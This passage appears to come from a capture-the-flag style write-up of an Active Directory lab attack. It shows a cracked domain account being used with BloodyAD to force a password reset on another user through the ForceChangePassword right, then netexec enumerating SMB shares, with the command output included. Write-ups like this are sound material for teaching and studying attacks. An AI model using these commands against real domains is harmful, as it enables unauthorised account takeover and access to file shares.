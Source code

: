 ```bash 
r.haggard : <cracked_password>
```

### Observations

The cracked credentials for `r.haggard` provided a new valid domain user account.  
This expanded the attack surface and opened the door to further privilege escalation.

--- 

## Privilege Abuse – ForceChangePassword

BloodHound analysis revealed that `r.haggard` has the `ForceChangePassword` privilege over the account `h.potch`.

### Abusing the Privilege
Using BloodyAD, I forced a password reset for `h.potch`:

```bash
bloodyAD -d BUILDINGMAGIC.LOCAL -u r.haggard -p '<r.haggard_password>' \
  --host 10.0.16.170 set password h.potch '<NewPassword123!>'

```

### Observations

- The `ForceChangePassword` right allowed taking control of the `h.potch` account.
    
- However, BloodHound showed that `h.potch` is **not a member of Remote Management Users or Remote Desktop Users**, meaning the account cannot be used for direct WinRM or RDP access.
    
- Further enumeration was required to determine how this account could be leveraged within the domain.

--- 
## Service Access – SMB Enumeration with h.potch

After resetting the password for `h.potch`, the new credentials were tested against SMB.

### Share Enumeration
```bash
netexec smb 10.0.16.170 -u h.potch -p '<NewPassword123!>' --shares
```

```bash
Share        Permissions   Remark
-----        -----------   ------------------------------
ADMIN$                     Remote Admin
C$                        Default share
File-Share   READ,WRITE    Central Repository of Building Magic's files
IPC$         READ          Remote IPC
NETLOGON     READ          Logon server share
SYSVOL       READ          Logon server share
```
